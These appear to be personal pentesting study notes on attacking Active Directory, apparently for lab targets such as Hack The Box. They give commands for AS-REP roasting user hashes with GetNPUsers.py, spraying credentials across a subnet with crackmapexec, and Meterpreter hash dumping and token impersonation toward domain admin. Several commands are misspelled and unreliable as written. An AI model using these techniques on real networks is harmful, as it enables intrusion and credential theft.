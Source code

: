 # Tools

## Enumeration
### Recognizing Domain Controller
- 137 open
- 3268 and 3269 open
- LDAP: 389 and 636
- [RPCClient](../Tools/rpcclient.md)

#### Try to get some user hashes
`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

## ldapsearch
- nmapautomator.py provides command
- `-x -h "<domain>" -s base` | tee somefile

## Crackmapexec
 - Pass the hash / smb attack
 - Use with cracked password to find where you have access to
 - Can be used with hashes too
`crackmapexec smb 192.168.148.0/24 -u Administrator -p 'P@$$w0rd' -d MARVEL`

## PsExec
- msfconsole
- used to interact with host you have creds for

## Meterpreter
- Migrate into process
- hashdump only works in x64, like many other things

### Incognito
- `load incofnito`
- `token_list`
- `impoersonate_token MARVEL\Administrator` -> token exists til reboot
- Path to domain admin
- `rev2selv` -> get back

### Migrate
IMPORTANT: Use to migrate into process to get x64 shell

